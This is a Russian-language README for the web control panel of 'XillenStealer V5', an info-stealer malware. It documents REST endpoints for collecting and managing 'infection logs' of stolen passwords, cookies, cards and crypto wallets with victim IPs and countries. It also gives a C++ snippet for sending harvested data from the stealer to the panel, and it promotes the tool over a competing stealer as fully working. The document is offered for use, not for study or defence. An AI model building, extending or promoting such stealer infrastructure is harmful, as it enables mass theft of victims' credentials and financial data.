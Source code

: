 # 🔥 XillenStealer V5 - Web Panel

## 📊 Описание

Полноценная веб-панель управления для XillenStealer V5 с базой данных, REST API и автоматическим обновлением статистики.

## ✅ Возможности

- 📈 Статистика в реальном времени
- 🗄️ База данных SQLite
- 🔄 REST API для управления
- 📋 Просмотр и удаление логов
- 🌍 География заражений
- 📊 Графики и диаграммы
- 🎨 Современный дизайн на базе Tabler

## 🚀 Быстрый старт

### 1. Запуск сервера

```bash
.\start_panel.bat
```

### 2. Откройте браузер

Перейдите на `http://localhost:8000`

## 📦 API Endpoints

### GET /api/stats
Получить статистику

**Response:**
```json
{
  "totalInfected": 10896,
  "infected24h": 68,
  "totalPasswords": 550768,
  ...
}
```

### GET /api/logs
Получить список логов

**Response:**
```json
{
  "logs": [
    {
      "uuid": "1",
      "country": "US",
      "ip": "228.222.129.56",
      "passwords": 18,
      ...
    }
  ]
}
```

### POST /api/log
Добавить лог

**Request:**
```json
{
  "country": "US",
  "ip": "1.2.3.4",
  "tag": "crypto",
  "passwords": 10,
  "cookies": 50,
  ...
}
```

### DELETE /api/log/{uuid}
Удалить лог по UUID

### GET /api/countries
Получить статистику по странам

## 🗄️ База данных

База данных SQLite (`xillen_panel.db`) содержит:

- Таблица `logs` - все логи заражений
- Таблица `stats` - агрегированная статистика

## 🔧 Настройка

По умолчанию сервер запускается на порту 8000.

Для изменения порта отредактируйте `server/panel_server.py`:

```python
run_server(8000)  # Измените на нужный порт
```

## 📝 Логика работы

1. **Инициализация**: Создаётся база данных с начальными данными
2. **Запросы**: API обрабатывает GET/POST/DELETE запросы
3. **Обновление**: Статистика обновляется автоматически при добавлении логов
4. **Кеширование**: Данные хранятся в SQLite

## 🎯 Интеграция с Stealer

Для отправки данных из стейлера:

```cpp
#include "server/api_handler.h"

LogEntry log;
log.country = "US";
log.ip = "1.2.3.4";
log.passwords = 10;
log.cookies = 50;
// ...

APIHandler::AddLog(log);
```

## 📊 Статистика

Панель показывает:
- Общее количество заражённых
- Количество паролей, кук, карт, кошельков
- Прирост за 24 часа
- Географию заражений
- Историю логов

## 🔥 Преимущества перед AURA

- ✅ Полная интеграция с базой данных
- ✅ REST API для управления
- ✅ Автоматическое обновление статистики
- ✅ Удаление логов через интерфейс
- ✅ Открытый код и настройка

---

**Статус:** ✅ Полностью рабочий и интегрированный
